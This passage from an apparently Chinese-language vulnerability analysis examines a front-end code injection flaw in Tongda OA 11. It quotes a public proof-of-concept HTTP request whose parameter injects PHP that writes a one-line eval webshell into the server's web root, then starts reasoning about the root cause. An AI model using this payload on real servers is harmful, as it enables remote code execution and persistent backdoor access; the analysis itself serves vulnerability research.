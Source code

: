 ### 2\. 前台代码注入漏洞

#### 前言

在一次众测中，遇到了一个通达OA11，虽然到最后也没有成功拿下权限，但是网上查找到的一个通达OA的前台RCE的poc，让我产生了兴趣，并进行了深入的分析。poc的来源是[https://cloud.tencent.com/developer/article/2200049](https://cloud.tencent.com/developer/article/2200049) 。

#### 对poc的简要分析与猜测

网上给出的POC如下：

```php
GET /general/appbuilder/web/portal/gateway/getdata?activeTab=%e5',1%3d>fwrite(fopen("D:\MYOA\webroot\general\test1.php","w"),"<?php @eval(next(getallheaders()));"))%3b/*&id=19&module=Carouselimage HTTP/1.1
Host: 192.168.121.147:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=7n7nl11mo8hrkp03hvtj8sjti0; KEY_RANDOMDATA=5711
Upgrade-Insecure-Requests: 1
```

然后文章给出的返回包是这样的

![00.png](assets/1700187068-03e6a580a91de4f450cf700bfbb7f858.png)  
注意activeTab那一栏的对应的像乱码一样的中文，再结合poc中这个很像是宽字节注入中出现的%e5，会很让人联想到是不是这一栏带入了sql进行了数据查询，从而导致了sql注入最终由于视图渲染等原因导致了任意代码执行。但是仔细思考后也觉得不对，因为即使是宽字节的注入，这边虽然进行了逃逸，但是也未对后续内容进行闭合和也没有对数据添加单引号表示为字符串。而且在本地进行测试的时候，也发现了这一步就是在控制器中达成的代码执行和视图关系不大。

#### 源码分析

由于这个poc实在没法一眼看出来漏洞的出处，下面对源码进行分析。首先先看一下目录结构
